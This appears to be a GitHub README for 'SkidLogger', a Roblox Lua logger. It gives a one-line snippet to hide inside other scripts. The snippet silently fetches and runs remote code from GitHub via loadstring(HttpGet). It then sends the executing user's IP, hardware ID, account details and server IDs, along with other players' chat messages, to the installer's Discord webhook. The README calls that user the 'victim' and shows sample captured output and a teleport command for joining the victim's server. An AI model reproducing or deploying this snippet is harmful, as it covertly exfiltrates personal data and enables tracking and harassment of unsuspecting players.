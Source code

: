 # How To Use the SkidLogger in your script?

Before you'll do all of those steps, note, that you should have a discord webhook API URL, before inserting the skidlogger in your own script.

1. Insert this code:
```lua
pcall(function()task.spawn(function()loadstring(game:HttpGet("http://github.com/IvanTheProtogen/skidlogger/raw/main/main.lua"))()("<<URL>>")end)end);
```
2. Replace the `<<URL>>` with your own discord webhook API URL.
3. Profit.

# What does it do?

It sends anyone's (whoever executes the code) IP, HWID, Username, User ID, Display Name, Place ID, Job ID and Universe ID via the webhook. It also logs messages said by players in the same server where the victim is at.

## Previews 

```
# Skid Got Caught!

HWID: ################################################################
Skidlogger Session ID: ##########
Username: IvanTheProtogen0
Display Name: IvanTheScript
User ID: 4856500064
Game Job ID: ########-####-####-####-############
Game Universe ID: ##########
Game Place ID: ##########
IP: ###.###.###.###

Join the skid by executing this code!: 
``lua
game:GetService("TeleportService"):TeleportToPlaceInstance(##########, "########-####-####-####-############", game:GetService("Players").LocalPlayer);
``
```

```
[[##########]] IvanTheScript (@IvanTheProtogen0) >> Hello World!
```

### Unused Message 

There's one message, that is supposed to fire when the player exits. But `game.OnClose` and `game:BindToClose()` are only executable on the server.

#### Preview 

```
# SESSION #`##########` ENDED
```
